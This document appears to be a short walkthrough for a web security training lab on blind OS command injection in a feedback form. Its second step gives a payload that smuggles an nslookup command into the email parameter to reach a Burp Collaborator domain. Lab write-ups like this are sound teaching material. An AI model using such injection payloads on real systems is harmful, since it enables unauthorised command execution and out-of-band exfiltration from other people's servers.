


This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.  
 **1\. You can find the vulnerability in the 'submit feedback' section**  
   
**  
 2\. This section sends a request where you will change the email parameter to our payload:  
**  
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`**  
****  
 3\. After sending the request you will receive a DNS request in the burp collaborator, and with that you have solved the lab  
  
**

&nbsp;